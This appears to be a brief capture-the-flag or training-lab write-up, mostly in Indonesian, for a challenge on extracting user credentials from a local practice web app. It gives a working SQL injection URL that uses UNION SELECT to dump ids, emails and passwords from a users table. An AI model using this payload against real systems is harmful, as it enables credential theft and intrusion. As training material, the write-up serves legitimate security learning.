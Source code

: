 # User Credentials

Retrieve a list of all user credentials via SQL Injection.

## Steps

Karena diminta untuk mendapatkan list user maka yang tergambar adalah variabel seperti id, email, password. Kita bisa memanfaat payload yang sebelumnya pernah digunakan di DB Schema. Hanya perlu ditambahkan beberapa payload untuk menyesuaikan.

`http://localhost:3000/rest/products/search?q=K')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--`

<img src="./img/usercredentials.png">

<img src="./img/usercredentialdone.png">
